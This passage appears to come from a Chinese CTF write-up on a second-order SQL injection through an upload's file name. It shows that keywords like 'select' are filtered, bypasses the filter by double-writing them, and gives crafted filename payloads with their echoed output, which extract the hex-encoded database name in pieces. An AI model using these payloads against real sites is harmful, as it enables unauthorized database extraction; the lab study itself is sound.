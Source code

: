 ```
|       8 | 64767762   | 1         | 1       | 1                                | 1                           | 2020-08-02 20:36:12 |            1 |
+---------+------------+-----------+---------+----------------------------------+-----------------------------+---------------------+--------------+
7 rows in set (0.00 sec)

```

这里`64767762`,是加1后的结果，所以减1后，unhex解码就是我们查出来的数据库`dvwa`，但是如果数据库进行hex编码后还可能有的会有字符，所以这是我们还需进行再次hex编码。

这道题就是这个原理: https://yanmie-art.github.io/2020/08/05/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8Cunfinish/

那么就开始做现在的这道题。

这里猜测sql语句为：

	insert into tables value(...,'$filename',...,...);

进行注入之前先看一下有没有过滤啥的。

这里名字改为`select`，回应包发现被过滤掉了，

![aWo73F.png](https://s1.ax1x.com/2020/08/07/aWo73F.png)

同样的方法测试`from`、`and`被过滤掉了。

那么双鞋绕过就可以了。

## 爆数据库

* 先查询一下数据库长度，`0'+(selselectect length(database()))+'.jpg`

页面回显`10`,说明数据库长度为10.

* 查询数据库名，文件名构造`0'+(selselectect hex(database()))+'.jpg`

得到`7765625`,解码地`webP`,很显然不够10位，说明没有都查出来。

使用截断地方法。

构造`0'+(substr((selselectect hex(database())),1,7))+'.jpg`

成功查出编码后的前7位，

构造`0'+(substr((selselectect hex(database())),8,7))+'.jpg`

回显0，这就很尴尬了，说明有字符。那么在进行一次hex编码。

构造`0'+(substr((selselectect hex(hex(database()))),1,7))+'.jpg`

得到`3737363`

构造`0'+(substr((selselectect hex(hex(database()))),8,7))+'.jpg`

得到`5363235`,

g构造`0'+(substr((selselectect hex(hex(database()))),15,7))+'.jpg`

得到`4637353`

按照上面的方法依次得到`7303643`、`3646363`、`13634`
